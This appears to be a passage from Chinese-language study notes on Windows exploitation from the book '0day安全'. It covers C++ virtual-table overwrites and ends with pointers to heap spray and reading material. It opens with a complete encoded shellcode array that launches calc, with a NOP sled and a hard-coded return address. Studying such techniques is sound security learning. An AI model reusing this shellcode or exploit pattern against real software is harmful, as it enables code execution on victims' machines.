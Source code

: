 最终shellcode如下：

```c
char shellcode[] = 
// nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// calc
"\x31\xc9\xb1\xbc\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c\x0e\x07"
"\xe2\xfa\xfd\xea\x81\x04\x05\x06\x67\x81\xec\x3b\xcb\x68\x86"
"\x5e\x3f\x9b\x43\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a"
"\x2c\xe1\xb3\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28\xed\xc9"
"\xde\x7f\x79\xa4\x62\x21\xb9\x79\x08\xbe\x7a\x26\x40\xda\x72"
"\x3a\xed\x6c\xb5\x66\x60\x40\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2"
"\x7e\xc0\x4d\x9b\x7f\xb0\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d"
"\xaf\x59\x26\xa4\x66\x23\x7b\x15\x85\x3a\xe8\x3c\x41\x67\xb4"
"\x0e\xe2\x66\x20\xe7\x35\x72\x6e\xa3\xfa\x76\xf8\x75\xa5\xff"
"\x33\x5c\x5d\x21\x20\x1d\x24\x24\x2e\x7f\x61\xdd\xdc\xde\x0e"
"\x94\x6c\x05\xd4\xe0\x8a\x01\x08\x3c\x8f\x90\x91\xc2\xfb\xa5"
"\x1e\xf9\x10\x67\x4c\x21\x6b\x29\x3f\xc8\xf7\x06\x34\x1f\x3e"
"\x5b\x70\x9a\xa1\xd4\xa3\x2a\x50\x4c\xd8\xab\x14\xf7\xa2\xc0"
"\xdc\xde\xb5\xe5\x48\x6d\xda\xdb\xd7\xdf\xbd"
// shellcode_addr
"\x50\x90\x40";
```

测试：

![Bildschirmfoto 2018-07-31 um 6.35.02 PM.png]({{ site.url }}/images/0day/BD0FBCC171D8D12E21C759B4F3C2EF5F.png)

注意，由于虚表指针位于成员变量之前，所以普通的“栈溢出”无法达到这种溢出效果。当然，对象的内存空间其实是在堆中，但是它本身对内存空间的使用又是连续的，这一点类似于栈。所以在两种情况下更适合对虚表进行攻击：

- 能够DWORD SHOOT（毋庸置疑）
- 存在多个对象，能够溢出到下一个对象的内存空间

## Heap Spray：堆与栈的协同攻击

本节的内容在"0day安全 Chapter 27 MS06-055分析：实战Heap Spray"实践。我将在第27章再回过头来学习这个技术，并做笔记。

补注：在第十三章绕过ASLR时也用到过堆喷技术。

## 参考资料

- [bh-win-04-litchfield.pdf]({{ site.url }}/images/0day/54473267732EFADF62E7A8E13D2F0F7F.pdf)
- [halvarflake-winsec02.pdf]({{ site.url }}/images/0day/3170BFC8B2D0808A5D4326BEB355CDDA.pdf)

有很多教程，可以学习一下：  
http://www.fuzzysecurity.com/tutorials.html

## 总结

(unsolved)

关于整个这一章，我有一个疑问：在DWORD SHOOT后如果没有触发异常，那么shellcode也得不到执行，那么最终具体是什么因素触发了异常？



